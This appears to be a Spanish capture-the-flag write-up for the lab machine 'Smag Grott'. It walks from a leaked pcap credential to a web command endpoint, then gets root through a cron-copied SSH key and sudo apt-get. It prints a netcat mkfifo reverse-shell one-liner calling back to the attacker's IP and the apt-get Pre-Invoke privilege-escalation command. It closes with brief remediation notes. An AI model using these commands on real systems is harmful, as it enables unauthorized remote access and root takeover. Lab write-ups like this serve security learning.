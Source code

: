 # Smag Grott
## Initial Scan 
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Smag
```
## Enum 
### HTTP
#### Gobusting
```
/mail (Status: 301)
```
En el directorio encontramos un pcap del servidor y al menos 3 usuarios: uzi , jake , netadmin , en el fuente encontramos un cuarto user trodd

Mirando el pcap obtenemos lo siguiente siguiendo el TCP stream
```
username=helpdesk&password=cH4nG3M3_n0w
```
Vamos a probar este en el SSH y parece que no funciona, mirando mas el pcap vemos que tenemos un endopint no accesbile desde la nuestra máquina, mirando mas vemos que el acceso es mediante el host, añadamos el host encontrado a /etc/hosts
```
development.smag.thm
```
Si accedemos a la página con las anteriores creds veremos que tenemos un endpoit para ejecutar comandos pero sin el output en esa pagina por lo que parece, ejecutemos una revshell a ver si hay suerte
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 1234 >/tmp/f
```
Con esa estamos dentro

## Privesc
Mirando el crontab
```
*  *    * * *   root	/bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
```
Podemos explotar esto cambiando esa clave publica por una nuestra, para ello generamos un par de clave en local y sustituimos la  publica remota por la nuestra 

Una vez que nos logeamso por ssh usando la clave como Jake podemos ver que podemos ejecutar cosas como sudo
```
User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```
Ejecutamos lo siguiente:
```
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/bash
```
Tenemos shell as root

# Analisis de la intrusion
### Information Leak
Hay trazas de red con información sensible expuestas lo que nos permitio obtener credenciales para acceder a la administracion del sistema
### RCE endpoint
En produccion deberian tener en cuenta que un endpoint para ejecutar comandos de manera remota desde la web es mala idea 
### Privileged Apt-get Command execution
La posibilidad de ejecutar este comando nos condujo a elevar privilegios de jake a sudo
# Solucion
### Privileged Apt-get Command execution
Si bien tener permisos para ejecutar apt-get en un usuario común es algo interesante de cara a actualizar el sistema, o añadir programas nuevos al servidor, es mejor que pida aunque sea la contraseña del usuario, o especificar los casos en sudoers de modo que no podamos ejecutar comandos arbitrarios via aptget
